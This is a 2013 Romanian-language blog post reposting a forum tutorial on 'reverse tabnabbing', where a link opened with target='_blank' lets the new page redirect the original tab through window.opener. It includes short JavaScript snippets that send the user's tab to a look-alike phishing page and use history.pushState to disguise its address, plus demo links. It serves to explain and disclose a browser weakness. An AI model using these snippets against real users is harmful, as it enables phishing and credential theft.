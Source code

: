 ```yaml
---
id: 51
title: 'Phishing via target=”_blank”'
date: 2013-01-06T20:23:49+00:00
author: Silviu Stroe
layout: post
guid: http://silviu-s.com/?p=51
permalink: /phishing-via-target_blank/
dpsp_networks_shares:
  - 'a:0:{}'
categories:
  - Cybersecurity
tags:
  - blank
  - metoda
  - pishing
  - target
---
```

Rasfoind astazi forumul RSTCenter.com, am vazut ca acest utilizator a “reinventat roata” intr-un mod foarte ingenios. Va prezint in continuare postarea lui de pe forum:

Autor: <a id="yui-gen21" title="B7ackAnge7z is online now" href="https://rstforums.com/forum/members/b7ackange7z/" rel="nofollow"><strong>B7ackAnge7z</strong></a>

Sper să nu greșesc dacă voi spune, că știm cu toții ce e un link și la ce folosește atributul target pentru tag-ul <a>. Și dat fiind faptul că majoritatea consideră inofensivă folosirea acestei tehnici atât de populare, în acest tutorial voi încerca să demonstrez contrariul.

Pentru început vreau să menționez că ceea ce va fi descris aici, personal o consider a fiind o vulnerabilitate pentru toate browserele cu excepția… _ta-da!_ — Internet Explorer. Iată de ce în continuare voi folosi cuvântul „vulnerabilitate” atunci când mă voi referi la acest „fenomen”.

De asemenea, vă rog să atrageți atenția că această vulnerabilitate v-a funcționa perfect <span style="text-decoration: underline;">doar dacă</span>se va apăsa click de stânga pe link, și nu click de dreapta → „Deschide în filă nouă”.

Și, nu în ultimul rând, așa cum toată lumea recomandă să fie folosit target=”_blank” pentru toate link-urile externe (doar nu dorim ca utilizatorul să părăsească pagina noastră), trebuie să constat că această vulnerabilitate afectează majoritatea site-urilor care fac referire la pagini externe.

<span style="font-size: large;"><b>Teorie</b></span>
  
Dacă avem pagina curentă „A” și facem referire la pagina „B” folosind atributul target=”_blank”, atunci când se va deschide pagina „B” pentru aceasta va fi creat un obiect window.opener cu ajutorului căruia putem redirecționa pagina „A” către o nouă pagină în timp ce utilizatorul accesează pagina „B”. Și cel mai important, paginile „A” și „B” pot fi pe domenii diferite.

<span style="font-size: large;"><b>Practică</b></span>
  
Pentru a înțelege mai bine despre ce merge vorba, vă recomand următorul exemplu: apăsați <a href="http://black.securrity.com/t_blank/rst-poc/" target="_blank" rel="nofollow">click aici</a>, așteptați să se încarce pagina, după care reveniți înapoi. Dacă apare eroarea „_window.opener is null_” atunci:

  1. Ai deschis link-ul altfel decât folosind click de stânga;
  2. Browserul tău nu e vulnerabil;
  3. Magie neagră?

Pentru un exemplu mai complex, vă rog să accesați <a href="http://white.securrity.com/t_blank/" target="_blank" rel="nofollow">această pagină</a> unde am folosit această vulnerabilitate pentru a simula un atac de tip phishing asupra unui site ce oferă servicii de email. Ca și pentru oricare site asemănător (Gmail, Hotmail ș.a.) fiecare link primit într-un mesaj are atributultarget=”_blank”.

<span style="font-size: large;"><b>Explicații</b></span>
  
Pentru a exploata vulnerabilitatea, trimitem un mesaj ce conține adresa URL către pagina „capcană”, unde pentru a fi siguri că utilizatorul a deschis link-ul, folosind click de stânga și nu altă metodă, verificăm dacă există obiectul window.opener și nu este NULL. După care, putem redirecționa pagina de unde a venit utilizatorul. Codul arată cam așa:

<div>
  <div>
    Code:
  </div>
  
  <pre>if (window.opener) {
   window.opener.location.replace('full-url-to-scam-page');
}</pre>
</div>

După cum puteți observa, totul e atât de simplu, atât de banal, atât de periculos… Dacă pagina de phishing și cea legitimă arată ca 2 picături de apă, iar numele domeniului nu dă de bănuit, când utilizatorul va reveni la pagina inițială cu siguranță, nu va observa modificarea.

Pentru a da mai puțin de bănuit, poate fi modificată adresa URL pentru pagina de phishing în felul următor:

  * De pe pagina **funny.php** e nevoie să trimitem adresa URL (referrer) de unde a venit utilizatorul. Eu am făcut așa: <div>
      <div>
        Code:
      </div>
      
      <pre>var referrer = encodeURIComponent(document.referrer);
window.opener.location = 'http://black.securrity.com/t_blank/scam.php#' + referrer;</pre>
    </div>

  * Apoi, pe pagina **scam.php** am folosit următorul cod: <div>
      <div>
        Code:
      </div>
      
      <pre>// Extragem legătura adresei URL și eliminăm numele domeniului
var fakeurl = decodeURIComponent(window.location.hash).replace('#http://white.securrity.com', '');

// Modificăm adresa URL fără a încărca conținutul acelei pagini
window.history.pushState(false, false, fake_url);</pre>
    </div>

<span style="font-size: large;"><b>În loc de concluzii</b></span>
  
Sincer, nu înțeleg, ce a fost în capul dezvoltatorilor ca să permită executarea funcțieilocation.replace() sau modificarea obiectului location dintre două domenii diferite? Dacă era de pe același domeniu, înțelegeam… Și chiar e foarte straniu, căci celelalte funcții și atribute ale obiectului window.opener nu pot nici măcar citite, deoarece:

<div>
  <div>
    <div>
      <div>
      </div>
      
      <div>
        <img title="Quote" alt="Quote" src="https://rstforums.com/forum/elitex360/misc/quote_icon.png" /> Originally Posted by <strong>Firefox</strong>
      </div>
      
      <div>
        Error: Permission denied to access property ‘bla-bla-bla’
      </div>
    </div>
  </div>
</div>

Sursa: https://rstforums.com/forum/63056-phishing-via-target-_blank.rst
